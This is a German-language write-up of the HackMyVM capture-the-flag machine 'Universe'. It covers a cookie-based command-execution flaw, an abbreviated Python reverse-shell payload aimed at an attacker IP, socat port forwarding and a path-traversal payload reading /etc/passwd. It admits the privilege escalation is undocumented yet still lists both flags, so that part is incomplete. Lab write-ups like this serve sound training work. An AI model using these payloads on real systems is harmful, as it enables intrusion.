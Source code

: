 # Universe - HackMyVM (Hard)
 
![Universe.png](Universe.png)

## Übersicht

*   **VM:** Universe
*   **Plattform:** HackMyVM (https://hackmyvm.eu/machines/machine.php?vm=Universe)
*   **Schwierigkeit:** Hard
*   **Autor der VM:** DarkSpirit
*   **Datum des Writeups:** 28. März 2024
*   **Original-Writeup:** https://alientec1908.github.io/Universe_HackMyVM_Hard/
*   **Autor:** Ben C.

## Kurzbeschreibung

Das Ziel der "Universe"-Challenge war die Erlangung von User- und Root-Rechten. Der Weg begann mit der Enumeration einer Python-Webanwendung (Werkzeug/Python) auf Port 1212. Im HTML-Quellcode wurde ein Hinweis auf ein Hintergrundbild `/static/universe.jpg` gefunden. Die Analyse dieser Bilddatei mit `strings` offenbarte einen `exec`-Cookie mit dem Base64-kodierten Wert `aWQ=`. Nach Dekodierung zu `id` wurde dieser Cookie verwendet, um Remote Code Execution (RCE) auf der Webanwendung zu erlangen (der Cookie-Wert wurde Base64-dekodiert und als Shell-Befehl ausgeführt). Dies führte zu einer Reverse Shell als Benutzer `miwa`. Als `miwa` wurde ein interner Dienst auf `localhost:8080` identifiziert. Mittels Port Forwarding (`socat`) wurde dieser Dienst extern zugänglich gemacht. Die interne Anwendung war anfällig für Local File Inclusion (LFI) über den `file`-Parameter. Der genaue Weg zur Privilegieneskalation von `miwa` zum Benutzer `void` (dessen User-Flag gefunden wurde) und anschließend zu `root` ist im bereitgestellten Log nicht vollständig dokumentiert, aber es wird angenommen, dass die LFI-Schwachstelle dabei eine Rolle spielte.

## Disclaimer / Wichtiger Hinweis

Die in diesem Writeup beschriebenen Techniken und Werkzeuge dienen ausschließlich zu Bildungszwecken im Rahmen von legalen Capture-The-Flag (CTF)-Wettbewerben und Penetrationstests auf Systemen, für die eine ausdrückliche Genehmigung vorliegt. Die Anwendung dieser Methoden auf Systeme ohne Erlaubnis ist illegal. Der Autor übernimmt keine Verantwortung für missbräuchliche Verwendung der hier geteilten Informationen. Handeln Sie stets ethisch und verantwortungsbewusst.

## Verwendete Tools

*   `arp-scan`
*   `vi`
*   `nmap`
*   `grep`
*   `nikto`
*   `wget`
*   `strings`
*   `stegseek`
*   `curl`
*   `echo`
*   `base64`
*   `nc` (Netcat)
*   `python3` (für Reverse Shell und `http.server`)
*   `find`
*   `ss`
*   `which`
*   `socat`
*   `cp`
*   `cat`
*   `ls`
*   `cd`
*   Standard Linux-Befehle (`id`, `stty`)

## Lösungsweg (Zusammenfassung)

Der Angriff auf die Maschine "Universe" gliederte sich in folgende Phasen:

1.  **Reconnaissance & Web Enumeration (Port 1212):**
    *   IP-Findung mit `arp-scan` (`192.168.2.107`). Eintrag von `universe.hmv` in `/etc/hosts`.
    *   `nmap`-Scan identifizierte offene Ports: 21 (FTP - vsftpd 3.0.3), 22 (SSH - OpenSSH 9.2p1), 1212 (Python/Werkzeug Webanwendung).
    *   `nikto` auf Port 1212 fand eine potenzielle Konfigurationsdatei `/cfg/CFGConnectionParams.txt` (Zugriff nicht weiter verfolgt) und bestätigte einen Redirect mit `user`-Parameter.
    *   Manuelle Untersuchung von `http://universe.hmv:1212/` zeigte ein Hintergrundbild `/static/universe.jpg`.

2.  **Steganography / Cookie Analysis & RCE:**
    *   Download von `universe.jpg`.
    *   `strings universe.jpg -n 8` fand den Hinweis `'Cookie exec: aWQ='`. `stegseek` auf das Bild war erfolglos.
    *   Dekodierung von `aWQ=` zu `id`.
    *   Aufruf von `http://universe.hmv:1212/?user=9` mit dem Header `Cookie: exec=aWQ=` führte den `id`-Befehl aus und zeigte die Ausgabe `uid=1000(miwa)...`. Dies bestätigte RCE über den `exec`-Cookie.
    *   Andere Befehle (`ls`, `ls /home`) wurden erfolgreich via Cookie ausgeführt.

3.  **Initial Access (Reverse Shell als `miwa`):**
    *   Ein Python3-Reverse-Shell-Payload (`python3 -c 'import socket,subprocess,os;s=socket.socket(...);s.connect(("[Angreifer-IP]",4444));...'`) wurde Base64-kodiert.
    *   Der kodierte Payload wurde als Wert des `exec`-Cookies an die Webanwendung gesendet.
    *   Ein `nc`-Listener auf dem Angreifer-System (Port 4444) empfing eine Reverse Shell als Benutzer `miwa`.

4.  **Internal Service Discovery, Port Forwarding & LFI:**
    *   Als `miwa` zeigte `ss -altpn` einen Dienst, der auf `127.0.0.1:8080` lauschte.
    *   `socat` wurde vom Angreifer-System auf das Zielsystem (`/tmp/socat`) heruntergeladen.
    *   Port Forwarding wurde eingerichtet: `/tmp/socat TCP-LISTEN:8000,fork TCP4:127.0.0.1:8080 &`.
    *   Der interne Dienst (erreichbar über `http://192.168.2.107:8000/`) zeigte eine Seite mit dem Text "Void Love Shine Sadness" und akzeptierte einen `file`-Parameter.
    *   Eine Local File Inclusion (LFI)-Schwachstelle wurde bestätigt durch Aufruf von `http://192.168.2.107:8000/?file=....//....//....//....//etc/passwd`, was den Inhalt von `/etc/passwd` (Benutzer `root`, `miwa`, `void` sichtbar) preisgab.

5.  **Privilege Escalation (zu `void` und `root`):**
    *   *Der genaue Weg zur Eskalation von `miwa` zum Benutzer `void` (dessen User-Flag gefunden wurde) und anschließend zu `root` ist im bereitgestellten Log nicht vollständig dokumentiert.*
    *   Es wird angenommen, dass die LFI-Schwachstelle auf Port 8000 oder andere, nicht gezeigte Methoden für diese Eskalationsschritte genutzt wurden.
    *   User-Flag (für `void`): `void{70zHEmM1WJL0jjm2WBorHVEQj}` wurde gefunden (Pfad `/home/void/user.txt` angenommen).
    *   Root-Flag: `root{k7Ei4kA88gtL957yYbWdRfVJg}` wurde gefunden (Pfad `/root/root.txt` angenommen).

## Wichtige Schwachstellen und Konzepte

*   **RCE via Cookie:** Der Wert eines Cookies (`exec`) wurde Base64-dekodiert und als Shell-Befehl ausgeführt.
*   **Informationsleck in Bilddatei (Steganographie/Strings):** Ein Hinweis auf den verwundbaren Cookie wurde in einer Bilddatei gefunden.
*   **Local File Inclusion (LFI) in interner Anwendung:** Ein interner Dienst (zugänglich gemacht durch Port Forwarding) war anfällig für LFI.
*   **Port Forwarding (socat):** Ermöglichte den Zugriff auf einen nur lokal lauschenden Dienst.
*   **Python Web Framework (Werkzeug):** Die Anwendung auf Port 1212 basierte auf Werkzeug/Python.

## Flags

*   **User Flag (`/home/void/user.txt` angenommen):** `void{70zHEmM1WJL0jjm2WBorHVEQj}` (Erlangungsmethode von `miwa` zu `void` nicht detailliert)
*   **Root Flag (`/root/root.txt` angenommen):** `root{k7Ei4kA88gtL957yYbWdRfVJg}` (Erlangungsmethode nicht detailliert)

## Tags

`HackMyVM`, `Universe`, `Hard`, `RCE`, `Cookie Manipulation`, `Base64`, `Steganography`, `LFI`, `Python`, `Werkzeug`, `socat`, `Port Forwarding`, `Privilege Escalation` (teilweise)
